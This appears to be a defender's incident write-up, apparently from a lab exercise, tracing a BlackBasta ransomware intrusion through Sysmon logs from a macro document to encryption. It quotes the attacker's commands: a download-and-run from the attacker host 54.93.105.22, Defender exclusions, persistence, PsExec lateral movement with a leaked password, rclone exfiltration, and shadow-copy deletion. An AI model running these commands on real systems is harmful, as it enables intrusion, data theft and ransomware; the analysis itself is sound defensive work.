

### <span class="hl">TL;DR</span>

A finance employee (FINANCEES\knixon) downloaded Financial Records.zip from attacker-controlled server 54.93.105.22 via Microsoft Edge. The extracted Financial Records.xlsm macro executed an encoded PowerShell command that downloaded and ran F6w1S48.vbs, which loaded WindowsUpdaterFX.dll via regsvr32.exe. The DLL added Windows Defender exclusions, established persistence via a registry Run key and a scheduled task, then dropped Pancake.jpg.exe as a C2 backdoor connecting back to 54.93.105.22:80. The attacker enumerated the host and domain, scanned the internal subnet, downloaded PsExec64 via bitsadmin, and laterally moved to a second host using financees.local\swhite credentials. From there, C:\clients was archived and exfiltrated to MEGA via rclone, the system was configured to boot into Safe Mode, shadow copies were deleted as SYSTEM, and the final **BlackBasta** ransomware payload 6as98v.exe was deployed.

### <span style="color:red">Initial Access</span>

I began the investigation in Kibana by filtering for **Sysmon Event ID 15** (FileCreateStreamHash) - an event generated when Windows writes a `Zone.Identifier` Alternate Data Stream to a downloaded file, recording its internet origin. This is the most reliable starting point for identifying drive-by downloads.


At **2025-03-21 15:08:22** user **FINANCEES\knixon** downloaded `Financial Records.zip` through msedge.exe. The winlog.event_data.Contents field showed **ZoneId=3 HostUrl=http://54.93.105.22/Financial%20Records.zip**, confirming the file originated from the internet and identifying the attacker's staging server. The file was saved to knixon's Downloads folder with SHA256 1CAAEBE93B73AD6C24193EF2D20548FE2E3F82FCDFF2D0B4A09211B61ADC1F6C.

### <span style="color:red">Execution Chain</span>

#### <span style="color:red">Excel Macro</span>

At **15:09:03** the user extracted and opened `Financial Records.xlsm` (SHA256: 030E7AD9B95892B91A070AC725A77281645F6E75CFC4C88F53DBF448FFFD1E15). The macro designated itself as a trusted document by writing to the Excel security registry key:

```
HKU\S-1-5-21-3865674213-28386648-2675066931-1120\SOFTWARE\Microsoft\Office\16.0\Excel\Security\Trusted Documents\TrustRecords\%USERPROFILE%/Downloads/Financial%20Records.xlsm
```

This self-trust registration suppresses the macro security warning on subsequent opens. At **15:09:32** the macro spawned `powershell.exe`.


Decoding the base64 payload revealed:

```powershell
Invoke-WebRequest -Uri 'http://54.93.105.22/F6w1S48.vbs' -OutFile "$env:LOCALAPPDATA\Temp\F6w1S48.vbs"
cmd.exe /c "$env:LOCALAPPDATA\Temp\F6w1S48.vbs"
```

The macro downloaded a VBScript from the C2 server and executed it in the same command.

#### <span style="color:red">VBS and DLL Loading</span>

At **15:15:29** **wscript.exe** executed `F6w1S48.vbs` from the user's Temp directory.


The script invoked `regsvr32.exe /s C:\Users\knixon\AppData\Local\Temp\WindowsUpdaterFX.dll`. **regsvr32** is a legitimate Windows binary used to register COM DLLs - abusing it to load a malicious DLL is a well-known LOLBin technique (T1218.010) that bypasses application whitelisting since the host process is a signed Microsoft binary.


#### <span style="color:red">Persistence and Defense Evasion</span>

Within the same second at **15:15**, `WindowsUpdaterFX.dll` (MD5: 735AB5713DB79516CF350265FA7574E5) executed a series of commands. It added three Windows Defender exclusion paths to prevent detection of its artifacts:

```powershell
Add-MpPreference -ExclusionPath "C:\ProgramData\Microsoft\ssh"
Add-MpPreference -ExclusionPath "%APPDATA%/Microsoft"
Add-MpPreference -ExclusionPath "%LOCALAPPDATA%/Temp"
```

It then wrote a registry Run key to maintain persistence across user logons:

```
HKCU\Software\Microsoft\Windows\CurrentVersion\Run\WindowsUpdater = wscript.exe %LOCALAPPDATA%/Temp/F6w1S48.vbs
```

A second persistence mechanism was established via a scheduled task WiindowsUpdate configured to execute as SYSTEM on every logon:

```
schtasks /Create /RU "NT AUTHORITY\SYSTEM" /SC ONLOGON /TN "WiindowsUpdate"
  /TR "C:\Windows\System32\regsvr32.exe /s %%localappdata%%\Temp\WindowsUpdaterFX.dll"
```


#### <span style="color:red">Dropper and C2 Backdoor</span>

The DLL created `C:\Users\knixon\AppData\Local\Temp\Pancake.jpg.exe` - the **double extension .jpg.exe** is a masquerading technique exploiting the Windows default of hiding known file extensions, making the binary appear as an image.


It then launched the binary via `Start-Process $env:LOCALAPPDATA\Temp\Pancake.jpg.exe`. The process (PID 10292) immediately established an outbound connection from 10.10.11.29 to 54.93.105.22 over port 80.


### <span style="color:red">Discovery and Reconnaissance</span>

#### <span style="color:red">Host Enumeration</span>

With the C2 channel active, the attacker issued discovery commands through `Pancake.jpg.exe` spawning child cmd.exe processes at roughly one-minute intervals.


#### <span style="color:red">Network Scanning and Tool Staging</span>

At **15:42** the attacker deployed `netscan.exe` to scan the internal subnet 10.10.11.1-10.10.255.255 for live hosts and open services. To enable lateral movement, *bitsadmin* - another LOLBin - was used to download `PsExec64.exe` from a GitHub repository into the knixon Temp folder. **PsExec** is a Sysinternals tool that enables remote process execution on other hosts using valid credentials.


### <span style="color:red">Lateral Movement</span>

With `PsExec64.exe` staged, the attacker used compromised credentials `financees.local\swhite` with password `b<ZITx4h1` to authenticate to 10.10.11.170. Initial validation commands whoami and hostname confirmed remote execution was working. The attacker then propagated the implant using:
```
PsExec64.exe \\financees.local -accepteula -s -c -f Pancake.jpg.exe
```

The `-c -f` flags copy and force-overwrite the executable to the remote host, and `-s` runs it as SYSTEM



### <span style="color:red">Collection and Exfiltration</span>

Operating in the context of swhite, the attacker collected sensitive data by compressing `C:\clients` into `data.zip`. The archive was then exfiltrated to cloud storage using `rclone copy data.zip mega:data` - **rclone** is a cloud sync utility frequently abused for data exfiltration (T1567.002) because traffic to MEGA blends with normal cloud storage activity and is rarely blocked.


### <span style="color:red">Pre-Ransomware Staging</span>

Before deploying the encryptor, the attacker executed `bcdedit.exe /set safeboot network` to configure the system to reboot into Safe Mode with networking. This technique disables most security software and EDR agents that do not load in Safe Mode, ensuring the ransomware can encrypt files without interference. At **16:47:19** curl downloaded the final payload `6as98v.exe` from `http://54.93.105.22/6as98v.exe` into `C:\Users\swhite\AppData\Local\Temp\`.

### <span style="color:red">Ransomware Execution and Cleanup</span>

#### <span style="color:red">Shadow Copy Deletion</span>

Shadow copies were deleted as `NT AUTHORITY\SYSTEM` using `vssadmin.exe delete shadows /all /quiet` - a standard ransomware anti-recovery step (T1490) that removes Windows Volume Shadow Copies to prevent file restoration without paying the ransom.


#### <span style="color:red">Ransomware Deployment</span>

At **16:49:19** `6as98v.exe` (PID 5792, MD5: 998022B70D83C6DE68E5BDF94E0F8D71) was executed. VirusTotal confirmed **61/71** vendors flagged this sample as **ransomware.blackbasta/basta** - BlackBasta is a ransomware-as-a-service operation known for double extortion attacks targeting enterprise environments.


At **16:52:52** and **16:53:30** the attacker ran cleanup commands to remove forensic artifacts from both Temp directories:

```powershell
Remove-Item -Path "$env:LOCALAPPDATA\Temp\*" -Recurse -Force
Remove-Item -Path "C:\Users\swhite\Appdata\Local\Temp\*" -Recurse -Force
```


### <span class="hl">IOCs</span>

| Type | Value | Description |
|------|-------|-------------|
| IP | `54.93.105.22` | Attacker C2 server - payload staging and beaconing |
| File | `Financial Records.zip` | SHA256: `1CAAEBE93B73AD6C24193EF2D20548FE2E3F82FCDFF2D0B4A09211B61ADC1F6C` |
| File | `Financial Records.xlsm` | SHA256: `030E7AD9B95892B91A070AC725A77281645F6E75CFC4C88F53DBF448FFFD1E15` |
| File | `F6w1S48.vbs` | VBScript dropper - `%LOCALAPPDATA%\Temp\` |
| File | `WindowsUpdaterFX.dll` | MD5: `735AB5713DB79516CF350265FA7574E5` - malicious DLL via regsvr32 |
| File | `Pancake.jpg.exe` | C2 backdoor - `%LOCALAPPDATA%\Temp\` |
| File | `6as98v.exe` | MD5: `998022B70D83C6DE68E5BDF94E0F8D71` - BlackBasta ransomware, 61/71 VT |
| Registry | `HKCU\...\CurrentVersion\Run\WindowsUpdater` | Persistence Run key |
| Task | `WiindowsUpdate` | Scheduled task - runs DLL as SYSTEM on logon |
| Account | `FINANCEES\knixon` | Initial compromised account |
| Account | `financees.local\swhite` | Lateral movement account, password: `b<ZITx4h1` |

### <span class="hl">Attack Timeline</span>


%%{init: {'theme': 'base', 'themeVariables': { 'background': '#ffffff', 'mainBkg': '#ffffff', 'primaryTextColor': '#000000', 'lineColor': '#333333', 'clusterBkg': '#ffffff', 'clusterBorder': '#333333'}}}%%
graph TD
    classDef default fill:#f9f9f9,stroke:#333,stroke-width:1px,color:#000;
    classDef access fill:#e1f5fe,stroke:#0277bd,stroke-width:2px,color:#000;
    classDef exec fill:#ffebee,stroke:#c62828,stroke-width:2px,color:#000;
    classDef persist fill:#f3e5f5,stroke:#6a1b9a,stroke-width:2px,color:#000;
    classDef lateral fill:#fff3e0,stroke:#e65100,stroke-width:2px,color:#000;
    classDef exfil fill:#fce4ec,stroke:#880e4f,stroke-width:2px,color:#000;
    classDef ransom fill:#b71c1c,stroke:#7f0000,stroke-width:2px,color:#fff;

    A([FINANCEES\knixon<br/>10.10.11.29]):::default --> B[15:08:22 - Edge downloads<br/>Financial Records.zip<br/>from 54.93.105.22]:::access
    B --> C[15:09:03 - Financial Records.xlsm<br/>macro self-trusts and executes]:::exec
    C --> D[15:09:32 - Encoded PowerShell<br/>downloads F6w1S48.vbs]:::exec
    D --> E[15:15:29 - wscript.exe runs F6w1S48.vbs<br/>PID 8732]:::exec
    E --> F[15:15:34 - regsvr32.exe loads<br/>WindowsUpdaterFX.dll PID 8592]:::exec

    subgraph Persist [Persistence and Defense Evasion]
        F --> G[15:15 - Defender exclusions added<br/>Run key and WiindowsUpdate task created]:::persist
        G --> H[Pancake.jpg.exe dropped<br/>C2 beacon to 54.93.105.22:80]:::persist
    end

    subgraph Discovery [Discovery]
        H --> I[15:17-15:22 - whoami ipconfig<br/>systeminfo net group domain admins]:::exec
        I --> J[15:42 - netscan.exe subnet scan<br/>bitsadmin downloads PsExec64.exe]:::exec
    end

    subgraph Lateral [Lateral Movement]
        J --> K[PsExec64 with swhite credentials<br/>to 10.10.11.170 and financees.local DC]:::lateral
    end

    subgraph Exfil [Collection and Exfiltration]
        K --> L[Compress-Archive C:\clients data.zip<br/>rclone copy data.zip mega:data]:::exfil
        L --> M[bcdedit /set safeboot network<br/>curl downloads 6as98v.exe]:::exfil
    end

    subgraph Ransom [Impact]
        M --> N[vssadmin delete shadows /all /quiet<br/>NT AUTHORITY\SYSTEM]:::ransom
        N --> O[16:49:19 - BlackBasta executed<br/>PID 5792<br/>MD5: 998022B70D83C6DE68E5BDF94E0F8D71]:::ransom
        O --> P[16:52-16:53 - PowerShell<br/>Remove-Item Temp cleanup]:::ransom
    end

